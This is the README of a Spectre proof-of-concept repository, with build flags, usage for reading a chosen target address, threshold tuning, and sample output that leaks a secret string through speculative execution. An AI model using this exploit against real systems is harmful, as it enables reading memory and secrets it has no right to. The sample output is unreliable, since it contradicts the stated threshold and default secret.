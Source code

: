 # SpectrePoC

Proof of concept code for the Spectre CPU exploit.

## Attribution

The source code originates from the example code provided in the "Spectre Attacks: Exploiting Speculative Execution" paper found here:

https://spectreattack.com/spectre.pdf

The original source code used in this repository was conveniently provided by Erik August's gist, found here: https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6

The code has been modified to fix build issues, add workaround for older CPUs, and improve comments where possible.

## Building

The project can be built with GNU Make and GCC.

On debian these are included in the `build-essential` metapackage.

Building is as easy as:

`cd SpectrePoC`

`make`

The output binary is `./spectre.out`.

### Building for older CPUs

If the target CPU doesn't support the "rdtscp" instruction, then the macro "NORDTSCP" must be defined.

Build the project with the NORDTSCP cflag:

`CFLAGS=-DNORDTSCP make`

If the target CPU doesn't support the "clflush" instruction, then the macro "NOCLFLUSH" must be defined.

Build the project with the NOCLFLUSH cflag:

`CFLAGS=-DNOCLFLUSH make`

### Building it without using the Makefile

If you want to build it manually, make sure to disable all optimisations (aka, don't use -O2), as it will break the program.

## Executing

To run specter with default cache hit threshold of 80, and the secret example string "The Magic Words are Squeamish Ossifrage." as the target, run `./spectre.out` with no command line arguments.

**Example:** `./spectre.out`

The cache hit threshold can be specified as the first command line argument. It must be a whole positive integer.

**Example:** `./spectre.out 80`

A custom target address and length can be given as the second and third command line arguments, respectively.

**Example:** `./spectre.out 80 12345678 128`

## Tweaking

If you're getting lackluster results, you may need to tweak the cache hit threshold. This can be done by providing a threshold as the first command line argument.

While a value of 80 appears to work for most desktop CPUs, a larger value may be required for slower CPUs. For example, on a AMD GX-412TC SOC, a value of 100-300 was required to get a good result.

## Contributing

Feel free to add your results to the "Results" issue. Include your cache hit threshold, OS details, CPU details like vendor Id, family, model name, stepping, microcode, Mhz, and cache size. These can be found by running `uname -a` and `cat /proc/cpuinfo`.

## Example output

The following was output on an AMD GX-412TC SOC, with a cache hit threshold of 100:

`./spectre.out 100:`

```
Using a cache hit threshold of 80.
Build: RDTSCP_SUPPORTED CLFLUSH_SUPPORTED 
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfeda8... Success: 0x54=’T’ score=2 
Reading at malicious_x = 0xffffffffffdfeda9... Success: 0x68=’h’ score=2 
Reading at malicious_x = 0xffffffffffdfedaa... Success: 0x65=’e’ score=2 
Reading at malicious_x = 0xffffffffffdfedab... Success: 0x20=’ ’ score=15 (second best: 0x05=’?’ score=5)
Reading at malicious_x = 0xffffffffffdfedac... Success: 0x4D=’M’ score=183 (second best: 0x05=’?’ score=89)
Reading at malicious_x = 0xffffffffffdfedad... Unclear: 0x61=’a’ score=985 (second best: 0x01=’?’ score=747)
Reading at malicious_x = 0xffffffffffdfedae... Unclear: 0x67=’g’ score=998 (second best: 0x01=’?’ score=762)
Reading at malicious_x = 0xffffffffffdfedaf... Unclear: 0x69=’i’ score=984 (second best: 0x01=’?’ score=774)
Reading at malicious_x = 0xffffffffffdfedb0... Unclear: 0x63=’c’ score=970 (second best: 0x01=’?’ score=725)
Reading at malicious_x = 0xffffffffffdfedb1... Unclear: 0x20=’ ’ score=988 (second best: 0x01=’?’ score=734)
Reading at malicious_x = 0xffffffffffdfedb2... Unclear: 0x48=’H’ score=998 (second best: 0x01=’?’ score=741)
Reading at malicious_x = 0xffffffffffdfedb3... Unclear: 0x61=’a’ score=952 (second best: 0x01=’?’ score=708)
Reading at malicious_x = 0xffffffffffdfedb4... Unclear: 0x70=’p’ score=957 (second best: 0x01=’?’ score=710)
Reading at malicious_x = 0xffffffffffdfedb5... Unclear: 0x70=’p’ score=979 (second best: 0x01=’?’ score=722)
Reading at malicious_x = 0xffffffffffdfedb6... Unclear: 0x65=’e’ score=976 (second best: 0x01=’?’ score=780)
Reading at malicious_x = 0xffffffffffdfedb7... Unclear: 0x6E=’n’ score=980 (second best: 0x01=’?’ score=735)
Reading at malicious_x = 0xffffffffffdfedb8... Unclear: 0x73=’s’ score=993 (second best: 0x01=’?’ score=755)
Reading at malicious_x = 0xffffffffffdfedb9... Unclear: 0x20=’ ’ score=986 (second best: 0x01=’?’ score=759)
Reading at malicious_x = 0xffffffffffdfedba... Unclear: 0x57=’W’ score=976 (second best: 0x01=’?’ score=771)
Reading at malicious_x = 0xffffffffffdfedbb... Unclear: 0x69=’i’ score=992 (second best: 0x01=’?’ score=721)
Reading at malicious_x = 0xffffffffffdfedbc... Unclear: 0x74=’t’ score=996 (second best: 0x01=’?’ score=766)
Reading at malicious_x = 0xffffffffffdfedbd... Unclear: 0x68=’h’ score=997 (second best: 0x01=’?’ score=751)
Reading at malicious_x = 0xffffffffffdfedbe... Unclear: 0x20=’ ’ score=986 (second best: 0x01=’?’ score=774)
Reading at malicious_x = 0xffffffffffdfedbf... Unclear: 0x53=’S’ score=988 (second best: 0x01=’?’ score=661)
Reading at malicious_x = 0xffffffffffdfedc0... Unclear: 0x68=’h’ score=996 (second best: 0x01=’?’ score=781)
Reading at malicious_x = 0xffffffffffdfedc1... Unclear: 0x65=’e’ score=974 (second best: 0x01=’?’ score=728)
Reading at malicious_x = 0xffffffffffdfedc2... Unclear: 0x6C=’l’ score=982 (second best: 0x01=’?’ score=694)
Reading at malicious_x = 0xffffffffffdfedc3... Unclear: 0x6C=’l’ score=983 (second best: 0x01=’?’ score=712)
Reading at malicious_x = 0xffffffffffdfedc4... Unclear: 0x63=’c’ score=977 (second best: 0x01=’?’ score=719)
Reading at malicious_x = 0xffffffffffdfedc5... Unclear: 0x6F=’o’ score=989 (second best: 0x01=’?’ score=759)
Reading at malicious_x = 0xffffffffffdfedc6... Unclear: 0x64=’d’ score=985 (second best: 0x01=’?’ score=790)
Reading at malicious_x = 0xffffffffffdfedc7... Unclear: 0x65=’e’ score=961 (second best: 0x01=’?’ score=774)
Reading at malicious_x = 0xffffffffffdfedc8... Unclear: 0x20=’ ’ score=988 (second best: 0x01=’?’ score=749)
Reading at malicious_x = 0xffffffffffdfedc9... Unclear: 0x54=’T’ score=997 (second best: 0x01=’?’ score=731)
Reading at malicious_x = 0xffffffffffdfedca... Unclear: 0x68=’h’ score=999 (second best: 0x01=’?’ score=777)
Reading at malicious_x = 0xffffffffffdfedcb... Unclear: 0x65=’e’ score=994 (second best: 0x01=’?’ score=802)
Reading at malicious_x = 0xffffffffffdfedcc... Unclear: 0x20=’ ’ score=996 (second best: 0x01=’?’ score=758)
Reading at malicious_x = 0xffffffffffdfedcd... Unclear: 0x48=’H’ score=994 (second best: 0x01=’?’ score=735)
Reading at malicious_x = 0xffffffffffdfedce... Unclear: 0x34=’4’ score=990 (second best: 0x01=’?’ score=762)
Reading at malicious_x = 0xffffffffffdfedcf... Success: 0x63=’c’ score=2 
```
